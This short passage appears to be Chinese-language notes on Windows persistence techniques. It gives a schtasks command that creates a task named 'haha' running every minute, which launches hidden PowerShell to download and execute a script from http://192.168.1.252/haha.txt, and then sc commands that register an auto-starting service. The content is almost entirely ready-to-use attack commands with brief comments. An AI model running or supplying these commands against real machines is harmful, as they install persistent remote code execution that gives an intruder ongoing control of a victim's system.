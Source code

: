 

```
cmd

schtasks /create /sc minute /mo 1 /tn "haha" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"http://192.168.1.252/haha.txt\"\"\"))\""

# 新建一个计划任务haha，打开powershell.exe，去执行......
```



## 服务启动：

```
sc create "nihao" binpath= "cmd /c start mkdir c:\123"  增加一个服务

sc description nihao "hahahahah" 设置服务的描述

sc config nihao start= auto 设置自动启动

net start nihao 开启服务
```



